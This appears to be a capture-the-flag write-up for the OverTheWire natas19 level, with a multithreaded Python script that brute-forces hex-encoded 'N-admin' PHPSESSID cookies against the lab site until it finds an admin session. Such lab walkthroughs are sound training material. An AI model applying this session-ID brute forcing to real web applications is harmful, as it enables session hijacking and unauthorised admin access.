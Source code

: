 # natas19

This problem is same as before but now the cookie is very complex looking. But not as much since it looks like hex. When you convert hex to text, we get `38-admin` (number might be different for you). Well that's the hit. We change the number 38 from 0 to 640, convert back to hex and try which one hits.
<br>The python code which works is-

```python
import requests
import binascii
import threading
url = 'http://natas19.natas.labs.overthewire.org/'
auth = ('natas19', '<password>')  # replace with the actual password

session = requests.Session()
session.auth = auth
def try_session_ids(start, end):
	for session_id in range(start, end):  # the session ID is between 1 and 640
		print(f'Trying session ID: {session_id}')
		session_cookie = f'{session_id}-admin'.encode()
		session_cookie = binascii.hexlify(session_cookie).decode()
		cookies = {'PHPSESSID': session_cookie}
		response = session.get(url, cookies=cookies)
		if 'You are an admin' in response.text:
			print('Found the admin session ID:', session_id)
			print(response.text)
			break

threads = []
for i in range(0, 601, 100):
    thread = threading.Thread(target=try_session_ids, args=(i, i+100))
    thread.start()
    threads.append(thread)

for thread in threads:
    thread.join()
```
And you get a hit within few seconds. 